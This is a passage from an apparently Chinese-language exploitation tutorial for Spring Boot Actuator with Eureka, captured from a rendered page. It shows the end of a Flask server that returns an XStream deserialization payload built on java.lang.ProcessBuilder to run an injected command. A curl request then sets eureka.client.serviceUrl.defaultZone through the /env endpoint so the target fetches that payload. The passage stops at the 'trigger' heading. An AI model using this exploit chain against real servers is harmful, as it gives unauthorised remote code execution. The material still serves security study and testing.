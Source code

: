 ```plain
                    <redirectErrorStream>false</redirectErrorStream>
                  </next>
                </iter>
                <filter class="javax.imageio.ImageIO$ContainsFilter">
                  <method>
                    <class>java.lang.ProcessBuilder</class>
                    <name>start</name>
                    <parameter-types/>
                  </method>
                  <name>foo</name>
                </filter>
                <next class="string">foo</next>
              </serviceIterator>
              <lock/>
            </cipher>
            <input class="java.lang.ProcessBuilder$NullInputStream"/>
            <ibuffer></ibuffer>
          </is>
        </dataSource>
      </dataHandler>
    </value>
  </jdk.nashorn.internal.objects.NativeString>
</linked-hash-set>""".format(command=command)
  return Response(xml, mimetype='application/xml')


if __name__ == "__main__":
    app.run(host='0.0.0.0', port=8090)
```

**(2)设置 eureka.client.serviceUrl.defaultZone 属性**

\*有的话这里要先记录下本来的属性值

```plain
curl -H 'Content-Type: application/x-www-form-urlencoded' -X POST --data "eureka.client.serviceUrl.defaultZone=http://127.0.0.1:8090/xxxxxsuibiantianxx" http://localhost:9093/env
```

成功设置,如下图所示:

[![](assets/1703152930-a2c7daabd702169a08a1f9202ce6abfd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210620111901-4237859e-d176-1.png)

**(3) 触发**
